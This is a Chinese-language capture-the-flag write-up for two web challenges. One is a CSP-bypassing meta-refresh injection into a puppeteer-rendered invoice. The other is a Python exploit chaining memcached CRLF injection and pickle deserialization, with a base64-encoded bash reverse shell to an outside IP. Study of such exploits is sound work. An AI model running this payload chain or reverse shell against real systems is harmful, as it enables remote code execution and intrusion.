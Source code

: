 checkout时会调用`renderPdf`，里面使用了`puppeteer`去获取`renderInvoice`返回的HTML，最后转为pdf。

学过爬虫应该知道`puppeteer`和`Selenium`类似，能够驱动浏览器去访问页面。实际上这时候就相当于服务端有个浏览器，我们可以对其执行XSS攻击。

`renderInvoice`根据我们传入的请求体的字段去替换HTML里面的字段内容。这就是XSS的注入点。

但这里还得绕过CSP

> **"default-src 'unsafe-inline' maxcdn.bootstrapcdn.com;**
>
> **object-src 'none';**
>
> **script-src 'none';**
>
> **img-src 'self' dummyimage.com**

script-src=none就意味着不能用script标签或任何触发js的地方。

这里用meta跳转绕过

`name=jack&address=<meta http-equiv="refresh" content="1;url=http://127.0.0.1:5000/orders">&phone=123456&email=123456&discount=FREEZTUFSSZ1412`

# healthy calc

`celery`是一个由python编写分布式任务调度框架。它专注于实时处理，在任务发布后，管理分配任务到不同的服务器，并取得结果。在执行任务分配时需要一个消息中间件（`Broker`）(如MQ/redis)，在客户端和`Worker`之间进行协调。最后将任务返回的结果存储到数据库（`Backend`）

* `memcached`存在`CRLF`注入（对`Memcached`协议来讲，`\r\n`是可以用来分割命令）

  ```sql
  set key flags exptime bytes
  value 
  
  key：键值key-value结构中的key，用于查找缓存值。
  flags：可以包括键值对的整型参数，客户机使用它存储关于键值对的额外信息 。
  exptime：在缓存中保存键值对的时间长度（以秒为单位，0 表示永远）
  bytes：在缓存中存储的字节数
  ```

* `pylibmc`从`memcached`加载数据时会进行pickle数据反序列化

```python
import requests, base64
from urllib.parse import quote

endpoint = 'http://healthy-calc.chal-kalmarc.tf:8080'

pickle_payload = f"I0\np0\n0S'bash -c \\'{{echo,{base64.b64encode(b'bash -i >& /dev/tcp/1.15.5.67/4444 0>&1')}}}|{{base64,-d}}|{{bash,-i}}\\''\np1\n0(g0\nlp2\n0(I0\ntp3\n0(g3\nI0\ndp4\n0cos\nsystem\np5\n0g5\n(g1\ntR.".encode()

payload = quote('\r\n').join([
    '/calc/add/666/666',
    quote(f'set uwsgi_file__app_chall._add_777_777 1 0 {len(pickle_payload)}'),
    quote(pickle_payload),
    '',
])

print(payload)
# write payload to memcached
r = requests.get(endpoint + payload)
# trrigger the payload
r = requests.get(endpoint + '/calc/add/777/777')
```
